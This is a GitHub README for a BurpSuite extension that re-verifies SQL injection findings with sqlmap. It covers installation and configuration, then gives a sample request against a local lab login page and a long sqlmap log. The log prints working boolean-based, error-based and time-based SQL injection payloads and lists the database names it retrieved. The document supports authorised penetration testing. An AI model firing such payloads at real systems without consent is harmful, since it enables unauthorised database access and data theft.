








## 🛡️ SecSci SQLMap

This BurpSuite extension integrates the powerful `sqlmap` tool directly into BurpSuite using Python.
It enables security testers to automatically verify potential SQL injection vulnerabilities by re-executing them using SQLMap, 
an automated SQL injection and database takeover tool.


## Features

- **Automatic Verification**: Automatically rescans SQL injection findings from Burp Scanner to confirm vulnerabilities.
- **Detailed Reporting**: Displays SesSci SQLMap results directly inside Burp’s Issues tab.
- **Extender API Integration**: Seamlessly integrates with BurpSuite via the Extender API.
- **Manual Execution Support**: Right-click on a target URL request and choose "Extensions → SecSci SQLMap" to manually execute SecSci SQLMap.
- 

## Prerequisites

Before installing the extension, ensure the following:

| Component | Required | Notes                                                                                                                                                                  |
|-----------|----------|------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| BurpSuite | ✅        | [Professional version](https://portswigger.net/burp/documentation/desktop/getting-started/download-and-install)                                                        |
| Jython    | ✅        | [Download Jython](https://www.jython.org/download) (e.g., `jython-standalone-2.7.4.jar`)                                                                               |
| Python    | ✅        | [Download Python](www.python.org/downloads/) 3.10 or later                                                                                                             |
| SQLMap    | ✅        | Ensure [`sqlmap`](https://sqlmap.org/) is installed and added to Environment Variable<br/>- Windows: `set sqlmap=sqlmap_path`<br/>- Linux: `export sqlmap=sqlmap_path` |


## Set Permanent Environment Variable
Here's how to **set environment variables** on **Windows** and **Linux**:

### 🪟 Windows

#### **Temporarily (for the current terminal session only):**

```cmd
set sqlmap=sqlmap_path
```

**Example:**

```cmd
set sqlmap=C:\tools\sqlmap\sqlmap.py
```

#### **Permanently (via GUI):**

1. Press `Win + S`, search for **"Environment Variables"**, and open it.
2. Under **System Properties → Advanced** → click **Environment Variables**.
3. Under **User variables** or **System variables**:

   * Click **New** to create a new variable.
   * Name: `sqlmap`
   * Value: `C:\tools\sqlmap\sqlmap.py`
4. Click OK.

#### **Permanently (via Command Line – Admin PowerShell):**

```powershell
[Environment]::SetEnvironmentVariable("sqlmap", "C:\tools\sqlmap\sqlmap.py", "User")
```

To set it system-wide:

```powershell
[Environment]::SetEnvironmentVariable("sqlmap", "C:\tools\sqlmap\sqlmap.py", "Machine")
```

---

### 🐧 Linux/macOS

#### **Temporarily (for current shell session):**

```bash
export sqlmap=sqlmap_path
```

**Example:**

```bash
export sqlmap=/opt/sqlmap/sqlmap.py
```

#### **Permanently (for a specific user):**

1. Add to `~/.bashrc`, `~/.zshrc`, or `~/.profile` (depending on shell):

```bash
export sqlmap=/opt/sqlmap/sqlmap.py
```

2. Then, apply the change:

```bash
source ~/.bashrc    # or source ~/.zshrc
```

#### **System-wide (for all users):**

- Add to `/etc/environment`:

```bash
sqlmap="/opt/sqlmap/sqlmap.py"
```

- Then reboot or run:

```bash
source /etc/environment
```


## Installation Steps

### 1. Download the Jython Standalone JAR

1. Go to [https://www.jython.org/download](https://www.jython.org/download)
2. Download the **standalone jar** (e.g. `jython-standalone-2.7.4.jar`)
3. Save the file, e.g., `jython-standalone-2.7.4.jar`, to a known location.

### 2. Enable Python Support in BurpSuite

1. Open **BurpSuite**
2. Navigate to **Extender** → **Options**
3. Scroll to **Python Environment**
4. Click **Select file…**
5. Choose the download file (e.g., `jython-standalone-2.7.4.jar`)

### 3. Add the Extension

1. Download [ [zip](https://github.com/securityscience/SecSci-SQLMap/zipball/main) | [tar](https://github.com/securityscience/SecSci-SQLMap/tarball/main) ] SecSci SQLMap
   - Unzip or Untar the downloaded `SecSci-SQLMap.zip|.tar` file
2. Go to **Extender** → **Extensions**
3. Click **Add**
4. Set:
   - **Extension Type**: Python
   - **Extension File**: `secsci_sqlmap.py`
5. Click **Next** → then **Finish**

If successful, the extension will show `Loaded` in the table.


## Usage Instructions

Once the extension is loaded in BurpSuite:
- Default settings will be loaded, however, it can be changed by navigating to **SecSci SQLMap Settings** tab:
  
- All SQL Injection vulnerabilities reported on Burp **Scanner → Issues** tab will be automatically verified using SQLMap.
- Uses SQLMap command-line silently in the background with preset flags from the **SecSci SQLMap Settings** tab.
- Verified results will appear in **Target** tab → [target_host] → *Issues** pane with detailed output as custom findings.

- Alternatively, SQLMap can be initiated manually by right clicking an HTTP *Request* or *Response* from **Proxy**, **Repeater**, or **Target** tab.
  - Right-click a request → choose **Extensions → SecSci SQLMap** to run SQLMap.
    

    **Console Output**
    


## Troubleshooting

| Issue                   | Solution                                                                               |
|-------------------------|----------------------------------------------------------------------------------------|
| Extension fails to load | Make sure you’re using Python 2.7 syntax and Jython is set                             |
| sqlmap.py not found     | Ensure `sqlmap` is installed and in `sqlmap=sqlmap_path` environment variable is added |
| No scan output shown    | Check **Extender → Output**, or use `print`/`callbacks.printOutput()`                  |


## Integration with Sec-Sci AutoPT

These extension is designed to operate seamlessly as part of the [Sec-Sci AutoPT](https://www.security-science.com/sec-sci-autopt) automated penetration testing framework.

## License

[GNU GPL 3.0](LICENSE)


## Support

If encounter issues, bugs or want to request features:

- Submit an [Issue](https://github.com/securityscience/SecSci-SQLMap/issues)
- Contact: [RnD@security-science.com](mailto:RnD@security-science.com)
- Or [https://www.security-science.com/contact](https://www.security-science.com/contact)


## Example Output

[ Click here](https://htmlpreview.github.io/?https://github.com/securityscience/SecSci-SQLMap/blob/main/secsci_sqlmap_report.html) to view sample exported report from BurpSuite.

### Example BurpSuite Issues







Sample Request (`host_sqlmap_timepstamp.request`)
```
POST /index.php?page=login.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 63
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="135", "Not-A.Brand";v="8"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Accept-Language: en-US,en;q=0.9
Origin: http://127.0.0.1
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1/index.php?page=login.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=e1e1fda93e729adbcc26e07af5e69905; showhints=1
Connection: keep-alive

redirectPage=&username=&password=&login-php-submit-button=Login
```

Sample SQLMap Output (`host_sqlmap_timepstamp.output`)
```
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.9.4.2#dev}
|_ -| . [)]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 14:30:55 /2025-05-24/

[14:30:55] [INFO] parsing HTTP request from 'Results/127.0.0.1_sqlmap_20250524143054279000.request'
[14:30:55] [WARNING] using 'D:\SecSci_RnD\BurpExtender\SecSci-SQLMap\Results\127.0.0.1_sqlmap_20250524143054279000' as the output directory
[14:30:55] [WARNING] provided value for parameter 'redirectPage' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[14:30:55] [WARNING] provided value for parameter 'username' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[14:30:55] [WARNING] provided value for parameter 'password' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[14:30:55] [INFO] testing connection to the target URL
[14:30:56] [WARNING] there is a DBMS error found in the HTTP response body which could interfere with the results of the tests
[14:30:56] [INFO] checking if the target is protected by some kind of WAF/IPS
[14:30:56] [INFO] testing if the target URL content is stable
[14:30:57] [INFO] target URL content is stable
[14:30:57] [INFO] testing if POST parameter 'redirectPage' is dynamic
[14:30:57] [WARNING] POST parameter 'redirectPage' does not appear to be dynamic
[14:30:58] [INFO] heuristic (basic) test shows that POST parameter 'redirectPage' might be injectable
[14:30:59] [INFO] testing for SQL injection on POST parameter 'redirectPage'
[14:30:59] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[14:31:00] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[14:31:00] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[14:31:01] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[14:31:01] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[14:31:01] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[14:31:01] [INFO] testing 'Generic inline queries'
[14:31:01] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[14:31:01] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[14:31:02] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[14:31:02] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[14:31:02] [INFO] testing 'PostgreSQL > 8.1 AND time-based blind'
[14:31:02] [INFO] testing 'Microsoft SQL Server/Sybase time-based blind (IF)'
[14:31:02] [INFO] testing 'Oracle AND time-based blind'
it is recommended to perform only basic UNION tests if there is not at least one other (potential) technique found. Do you want to reduce the number of requests? [Y/n] Y
[14:31:02] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
[14:31:02] [WARNING] using unescaped version of the test because of zero knowledge of the back-end DBMS. You can try to explicitly set it with option '--dbms'
[14:31:03] [WARNING] POST parameter 'redirectPage' does not seem to be injectable
[14:31:03] [INFO] testing if POST parameter 'username' is dynamic
[14:31:03] [WARNING] POST parameter 'username' does not appear to be dynamic
[14:31:03] [INFO] heuristic (basic) test shows that POST parameter 'username' might be injectable (possible DBMS: 'MySQL')
[14:31:03] [INFO] heuristic (XSS) test shows that POST parameter 'username' might be vulnerable to cross-site scripting (XSS) attacks
[14:31:03] [INFO] testing for SQL injection on POST parameter 'username'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[14:31:03] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[14:31:03] [WARNING] reflective value(s) found and filtering out
[14:31:04] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[14:31:04] [INFO] testing 'Generic inline queries'
[14:31:04] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[14:31:08] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)'
got a 302 redirect to 'https://127.0.0.1/index.php?popUpNotificationCode=AU1'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [y/N] N
[14:31:08] [INFO] POST parameter 'username' appears to be 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)' injectable (with --code=302)
[14:31:08] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[14:31:08] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
[14:31:08] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[14:31:09] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
[14:31:09] [INFO] testing 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)'
[14:31:09] [INFO] testing 'MySQL >= 5.6 OR error-based - WHERE or HAVING clause (GTID_SUBSET)'
[14:31:09] [INFO] testing 'MySQL >= 5.7.8 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (JSON_KEYS)'
[14:31:09] [INFO] testing 'MySQL >= 5.7.8 OR error-based - WHERE or HAVING clause (JSON_KEYS)'
[14:31:09] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[14:31:09] [INFO] testing 'MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[14:31:09] [INFO] POST parameter 'username' is 'MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)' injectable 
[14:31:09] [INFO] testing 'MySQL inline queries'
[14:31:09] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[14:31:09] [INFO] testing 'MySQL >= 5.0.12 stacked queries'
[14:31:09] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP - comment)'
[14:31:09] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP)'
[14:31:09] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK - comment)'
[14:31:09] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK)'
[14:31:09] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[14:31:28] [INFO] POST parameter 'username' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
[14:31:28] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[14:31:28] [INFO] testing 'MySQL UNION query (NULL) - 1 to 20 columns'
[14:31:28] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[14:31:28] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[14:31:29] [INFO] target URL appears to have 1 column in query
do you want to (re)try to find proper UNION column types with fuzzy test? [y/N] N
[14:31:29] [WARNING] if UNION based SQL injection is not detected, please consider and/or try to force the back-end DBMS (e.g. '--dbms=mysql') 
[14:31:31] [INFO] testing 'MySQL UNION query (random number) - 1 to 20 columns'
[14:31:34] [INFO] testing 'MySQL UNION query (NULL) - 21 to 40 columns'
[14:31:35] [INFO] testing 'MySQL UNION query (random number) - 21 to 40 columns'
[14:31:38] [INFO] testing 'MySQL UNION query (NULL) - 41 to 60 columns'
[14:31:40] [INFO] testing 'MySQL UNION query (random number) - 41 to 60 columns'
[14:31:42] [INFO] testing 'MySQL UNION query (NULL) - 61 to 80 columns'
[14:31:44] [INFO] testing 'MySQL UNION query (random number) - 61 to 80 columns'
[14:31:46] [INFO] testing 'MySQL UNION query (NULL) - 81 to 100 columns'
[14:31:48] [INFO] testing 'MySQL UNION query (random number) - 81 to 100 columns'
[14:31:51] [WARNING] in OR boolean-based injection cases, please consider usage of switch '--drop-set-cookie' if you experience any problems during data retrieval
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 375 HTTP(s) requests:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: redirectPage=&username=-9060' OR 2716=2716#&password=&login-php-submit-button=Login

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: redirectPage=&username=' OR (SELECT 3138 FROM(SELECT COUNT(*),CONCAT(0x716a766a71,(SELECT (ELT(3138=3138,1))),0x71626a6b71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- Kttc&password=&login-php-submit-button=Login

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: redirectPage=&username=' AND (SELECT 6344 FROM (SELECT(SLEEP(5)))sgDH)-- DlCq&password=&login-php-submit-button=Login
---
[14:31:51] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: PHP 8.4.6, Apache 2.4.62
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[14:31:51] [INFO] fetching database names
[14:31:51] [INFO] starting 3 threads
[14:31:51] [INFO] retrieved: 'information_schema'
[14:31:51] [INFO] retrieved: 'sys'
[14:31:51] [INFO] retrieved: 'mysql'
